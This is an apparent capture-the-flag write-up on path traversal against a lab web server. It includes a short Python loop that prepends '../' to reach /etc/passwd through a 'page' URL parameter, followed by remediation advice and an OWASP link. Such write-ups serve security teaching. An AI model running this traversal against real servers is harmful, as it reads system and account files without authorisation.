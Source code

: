# Path traversal

### Introduction
A path traversal attack involves manipulating inputs to gain unauthorized access to files outside the intended directory or area.

### Procedure
By inspecting the website's requests, we can identify that the server used by the website is `nginx/1.4.6 (Ubuntu)`. This information is crucial as it informs us about the operating system, which, in turn, gives insights into how files and directories are organized. One potentially interesting file to explore is `/etc/passwd`. This file holds information about user accounts on the system and can be a significant source of details regarding the users and their privileges.

To access this file, we'll use the `page` parameter in the URL by successively adding `../` at the beginning of `/etc/passwd`` until we successfully retrieve the desired information.

### Program
We will develop a program that sends requests to the server, gradually appending `../` at the start of `/etc/passwd` until the server's response contains the word `flag` at the very beginning of the page response. The program will end either upon finding the word `flag` or when it reaches the maximum number of loops.
```python
def try_directory(path: str, max: int = 20):
	for i in range(max):
		page = '/'.join(['..'] * i) + '/' + path

		response = requests.get(f'http://192.168.56.2/?page={page}')

		script = response.text.partition('\n')[0].split("'")[1::2]

		if len(script) > 0 and script[0].find("flag") != -1:
			return script[0]
```

### How to fix
To address this issue, it is recommended to implement strict access controls on specific directories, preventing users from exploring server directories. Additionally, ensure thorough validation and sanitization of all user inputs to mitigate the risk of unauthorized access and directory traversal.

### Sources
[OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)